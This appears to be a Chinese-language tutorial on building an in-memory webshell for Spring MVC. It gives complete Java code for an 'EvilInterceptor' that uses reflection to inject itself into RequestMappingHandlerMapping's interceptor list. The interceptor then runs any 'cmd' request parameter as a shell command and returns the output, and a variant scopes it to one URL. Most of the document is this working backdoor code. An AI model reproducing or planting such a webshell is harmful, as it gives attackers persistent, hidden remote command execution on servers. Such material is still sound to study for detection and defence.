


上一节讲到`DispatcherServlet#doDispatch`中会遍历拦截器执行`preHandle`

```java
mappedHandler.applyPreHandle(processedRequest, response)
```

这里的`mappedHandler`一个`HandlerExecutionChain`，包含处理器对象和所有的拦截器

由`HandlerMapping#getHandler(HttpServletRequest)`获取



率先拿到`RequestMappingHandlerMapping`



因此只要拿到`adaptedInterceptors`，再往里面放入我们自定义的拦截器即可

```java
package org.demo;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class EvilInterceptor implements HandlerInterceptor {
    static {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        EvilInterceptor evilInterceptor = new EvilInterceptor();
        adaptInterceptors.add(evilInterceptor);
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        if (request.getParameter("cmd") != null) {
            try {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
}
```

也可以构造`MappedInterceptor`来对指定URL进行拦截

```java
EvilInterceptor evilInterceptor = new EvilInterceptor();
MappedInterceptor mappedInterceptor = new MappedInterceptor(new String[]{"/test"}, evilInterceptor);
adaptInterceptors.add(mappedInterceptor);
```

HTTP请求经过的组件顺序：

```java
HttpRequest --> Listener -> Filter --> DispactherServlet --> Interceptor --> Aspect --> Controller
```